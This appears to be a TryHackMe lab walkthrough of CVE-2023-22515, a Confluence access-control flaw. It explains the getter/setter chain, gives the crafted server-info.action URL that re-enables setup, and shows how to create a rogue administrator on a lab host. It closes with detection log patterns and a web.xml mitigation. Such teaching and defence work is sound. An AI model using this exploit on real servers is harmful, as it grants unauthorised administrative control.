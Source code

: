 ﻿On October 4th, 2023, Atlassian released a [security advisory](https://confluence.atlassian.com/security/cve-2023-22515-privilege-escalation-vulnerability-in-confluence-data-center-and-server-1295682276.html) regarding **CVE-2023-22515**, a broken access control vulnerability, with an assigned CVSS score of **10.0**. The vulnerability was introduced in version 8.0.0 of Confluence Server and Data Center editions and is present in versions`<8.3.3`,`<8.4.3`,`<8.5.2`. According to Atlassian, the vulnerability has already been exploited in the wild.

An attacker can exploit the vulnerability to create an additional account in Confluence with full administrative privileges. The attacker needs no prior information to exploit the vulnerability. The vulnerability is believed to enable other unknown attack vectors and should be patched as soon as possible.


# Confluence's Initial Setup

When running Confluence for the first time, you'll go through the initial setup, which allows you to configure some basic parameters and create an administrative account. The initial setup can be reached by navigating to`http://10.10.140.118:8090/setup/`.

If you try to access the initial setup after you have completed it, you won't be able to go through the setup again but will be greeted with a message stating that the setup process is already complete:

![Setup Complete Message](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/87a38e7e852b41d0cf2eee22d9a1708e.png)

This is normal expected behavior and would normally not be useful for an attacker at all.

# Enter CVE-2023-22515

This vulnerability allows an attacker to reenable the initial setup process. In doing so, the attacker can go through the step of creating a new administrator all over again.

This is all possible because Confluence is built using the Apache Struts framework, which depends on the XWork package. XWork allows you to define Actions in the form of a Java class. Each Action can be invoked through a URL, and the corresponding Java class will handle the request, do whatever the Action requires, and emit a response. To clarify how Actions work, navigate to`http://10.10.140.118:8090/`. You should immediately be redirected to`http://10.10.140.118:8090/login.action`. This URL calls an Action bound to a Java class to handle login attempts. When an Action is invoked through its URL, the`execute()` method of the class will be called by default.

# Calling Getters/Setters via XWorks We can also call getters and setters in Action classes by using a URL specifying an HTTP parameter with the chain of attributes we want to get/set. As an example, if the login Action class had a`setId()` method, we could invoke it via the following URL:

```shell
http://10.10.140.118:8090/login.action?Id=123
```

This would execute`setId('123')` as defined in the corresponding Action class.

# Chaining Getters/Setters to Reenable the Initial Setup

The reported exploit takes advantage of the`ServerInfoAction` Action. The reason for picking this specific Action is that we can build a chain of getters/setters from it to set the configuration parameter that turns the initial setup on or off.

If you analyse the code of the`ServerInfoAction` class, you'll see it extends the`ConfluenceActionSupport` class. By doing so, it will inherit all of its methods as well. One such method is a getter that returns a`BootstrapStatusProvider` object:

```java
public class ConfluenceActionSupport extends ActionSupport implements LocaleProvider, WebInterface, MessageHolderAware {
 public BootstrapStatusProvider getBootstrapStatusProvider() {
 if (this.bootstrapStatusProvider == null)
 this.bootstrapStatusProvider = BootstrapStatusProviderImpl.getInstance(); 
 return this.bootstrapStatusProvider;
 }
}
```

We care about the`BootstrapStatusProvider` class because it has another getter method we can use to retrieve an`ApplicationConfiguration` object:

```java
public class BootstrapStatusProviderImpl implements BootstrapStatusProvider, BootstrapManagerInternal {
 public ApplicationConfiguration getApplicationConfig() {
 return this.delegate.getApplicationConfig();
 }
}
```

As you have probably guessed by now, this object contains the application's configuration, including an attribute that tells Confluence if the initial setup has been finished. Such attribute can be modified by using a setter in the`ApplicationConfig` class:

```java
public class ApplicationConfig implements ApplicationConfiguration {
 public synchronized void setSetupComplete(boolean setupComplete) {
 this.setupComplete = setupComplete;
 } 
}
```

If we call`setSetupComplete(false)`, we will effectively reenable the initial setup. Putting it all together, we can call that chain of getters/setters by accessing the following URL:

```shell-session
http://10.10.140.118:8090/server-info.action?bootstrapStatusProvider.applicationConfig.setupComplete=false
```

This will be effectively translated by XWork into a call to:

```java
getBootstrapStatusProvider().getApplicationConfig().setSetupComplete(false)
```

Now, go to your browser and navigate to the crafted URL to trigger the vulnerability. You should get the following response from the server:

![Successful Exploit Response](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/f84573513308dce89e4e11f2aa5421d7.png)

# Creating an Admin Account

Now that we can access the initial setup once again, let's browse to:```shell-session
http://10.10.140.118:8090/setup/setupadministrator-start.action
```

Fill in the details of your new admin user and click next:

![Creating a New Admin](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/eabc9bac04b7cf6512f120e4e93e0df6.png)

If all goes well, you should get access to Confluence with administrative privileges!

![Checking the Admin Account](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/5a03b959aba38ec9fb2e12cd37401176.png)

In this task, we have gone through a quick explanation of the vulnerability. If you want a more in-depth look at the technical details, check [Rapid7 analysis in attackerKB](https://attackerkb.com/topics/Q5f0ItSzw5/cve-2023-22515/rapid7-analysis?referrer=moreFromAKB).


# AUTOMATING EXPLOITATION

As we have seen, exploiting the vulnerability is relatively straightforward and can be done manually using a single request and a regular browser. Even so, automated exploits are readily available. Chocapikk developed one such exploit, which can be downloaded from [here](https://github.com/Chocapikk/CVE-2023-22515). Feel free to download and use the exploit against the target machine!

On the other hand, if you need to test many servers to see if they are vulnerable, a simple vulnerability scanner was developed by ErikWynter. It can be obtained from his [GitHub page](https://github.com/ErikWynter/CVE-2023-22515-Scan). Unlike Chocapikk's script, this one will not exploit the vulnerability but test for it only.

# Detection

Should you have an instance of a vulnerable version of Confluence, be sure to check for the following:

- Network access logs pointing to`/setup/*.action`. There's no reason for a regular user to request such URLs after installation.
- Network access logs to`/server-info.action?bootstrapStatusProvider.applicationConfig.setupComplete=false`.
- Review your Confluence users and look for suspicious accounts and members of the`confluence-administrators` group.

# Patching

All vulnerable instances should be upgraded to at least one of the following versions as soon as possible:

- 8.3.3
- 8.4.3
- 8.5.2

If upgrading is not possible immediately, access to the`/setup/*` endpoints may be blocked as a temporary measure. To do so, add the following security constraint inside the`<web-app>` tag in`/<confluence-install-dir>/confluence/WEB-INF/web.xml`:

```xml
<security-constraint>
 <web-resource-collection>
 <url-pattern>/setup/*</url-pattern>
 <http-method-omission>*</http-method-omission>
 </web-resource-collection>
 <auth-constraint />
</security-constraint>
```

This will effectively restrict the access to`/setup/*`.

Remember that the mitigation instructions shouldn't be considered a definitive patch but only an interim measure. Servers should still be upgraded as soon as it becomes possible.

